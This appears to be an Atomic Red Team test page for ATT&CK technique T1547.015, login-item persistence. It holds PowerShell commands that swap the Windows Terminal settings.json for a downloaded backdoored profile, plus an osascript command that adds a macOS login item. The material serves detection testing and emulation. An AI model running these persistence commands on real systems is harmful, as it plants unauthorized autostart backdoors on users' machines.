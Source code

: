 ```yaml
---
tags: [T1547_015, atomic_test]
filename: "[[T1547.015|T1547.015 - Boot or Logon Autostart Execution: Login Items]]"
---
```


# T1547.015 - Boot or Logon Autostart Execution: Login Items
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/015)
<blockquote>Adversaries may add login items to execute upon user login to gain persistence or escalate privileges. Login items are applications, documents, folders, or server connections that are automatically launched when a user logs in.(Citation: Open Login Items Apple) Login items can be added via a shared file list or Service Management Framework.(Citation: Adding Login Items) Shared file list login items can be set using scripting languages such as [AppleScript](https://attack.mitre.org/techniques/T1059/002), whereas the Service Management Framework uses the API call <code>SMLoginItemSetEnabled</code>.

Login items installed using the Service Management Framework leverage <code>launchd</code>, are not visible in the System Preferences, and can only be removed by the application that created them.(Citation: Adding Login Items)(Citation: SMLoginItemSetEnabled Schroeder 2013) Login items created using a shared file list are visible in System Preferences, can hide the application when it launches, and are executed through LaunchServices, not launchd, to open applications, documents, or URLs without using Finder.(Citation: Launch Services Apple Developer) Users and applications use login items to configure their user environment to launch commonly used services or applications, such as email, chat, and music applications.

Adversaries can utilize [AppleScript](https://attack.mitre.org/techniques/T1059/002) and [Native API](https://attack.mitre.org/techniques/T1106) calls to create a login item to spawn malicious executables.(Citation: ELC Running at startup) Prior to version 10.5 on macOS, adversaries can add login items by using [AppleScript](https://attack.mitre.org/techniques/T1059/002) to send an Apple events to the “System Events” process, which has an AppleScript dictionary for manipulating login items.(Citation: Login Items AE) Adversaries can use a command such as <code>tell application “System Events” to make login item at end with properties /path/to/executable</code>.(Citation: Startup Items Eclectic)(Citation: hexed osx.dok analysis 2019)(Citation: Add List Remove Login Items Apple Script) This command adds the path of the malicious executable to the login item file list located in <code>~/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm</code>.(Citation: Startup Items Eclectic) Adversaries can also use login items to launch executables that can be used to control the victim system remotely or as a means to gain privilege escalation by prompting for user credentials.(Citation: objsee mac malware 2017)(Citation: CheckPoint Dok)(Citation: objsee netwire backdoor 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence by modifying Windows Terminal profile](#atomic-test-1---persistence-by-modifying-windows-terminal-profile)

- [Atomic Test #2 - Add macOS LoginItem using Applescript](#atomic-test-2---add-macos-loginitem-using-applescript)


<br/>

## Atomic Test #1 - Persistence by modifying Windows Terminal profile
Modify Windows Terminal settings.json file to gain persistence. [Twitter Post](https://twitter.com/nas_bench/status/1550836225652686848)

**Supported Platforms:** Windows


**auto_generated_guid:** ec5d76ef-82fe-48da-b931-bdb25a62bc65





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calculator | Test program used to imitate a maliciously called program. | string | calculator.exe|
| settings_json_def | Default file for Windows Terminal to replace the default profile with a backdoor to call another program. | path | ~&#92;AppData&#92;Local&#92;Packages&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;LocalState&#92;settings.json|
| settings_json_tmp | Temp file for Windows Terminal. | path | ~&#92;AppData&#92;Local&#92;Temp&#92;settings.json|
| wt_exe | Windows Terminal executable. | path | ~&#92;AppData&#92;Local&#92;Microsoft&#92;WindowsApps&#92;Microsoft.WindowsTerminal_8wekyb3d8bbwe&#92;wt.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
mv #{settings_json_def} #{settings_json_tmp}
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.015/src/settings.json?raw=true" -OutFile "#{settings_json_def}"
wt.exe
```

#### Cleanup Commands:
```powershell
mv -Force #{settings_json_tmp} #{settings_json_def}
taskkill /F /IM "#{calculator}" > $null
```



#### Dependencies:  Run with `powershell`!
##### Description: Windows Terminal must be installed
##### Check Prereq Commands:
```powershell
if (Test-Path #{wt_exe}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
$(rm ~\AppData\Local\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\LocalState\StoreEdgeFD\installed.db -ErrorAction Ignore; Write-Output ""; $?) -and $(winget install --id=Microsoft.WindowsTerminal)
```




<br/>
<br/>

## Atomic Test #2 - Add macOS LoginItem using Applescript
Runs osascript on a file to create new LoginItem for current user.
NOTE: Will popup dialog prompting user to Allow or Deny Terminal.app to control "System Events"
Therefore, it can't be automated until the TCC is granted.
The login item launches Safari.app when user logs in, but there is a cleanup script to remove it as well.
In addition to the `osascript` Process Events, file modification events to
`/Users/*/Library/Application Support/com.apple.backgroundtaskmanagementagent/backgrounditems.btm` should be seen.

**Supported Platforms:** macOS


**auto_generated_guid:** 716e756a-607b-41f3-8204-b214baf37c1d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| scriptfile | path to Applescript source to add Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/add_login_item.osa|
| cleanup_script | path to Applescript source to delete Safari LoginItem. | string | PathToAtomicsFolder/T1547.015/src/remove_login_item.osa|


#### Attack Commands: Run with `bash`! 


```bash
osascript #{scriptfile}
```

#### Cleanup Commands:
```bash
osascript #{cleanup_script}
```





<br/>
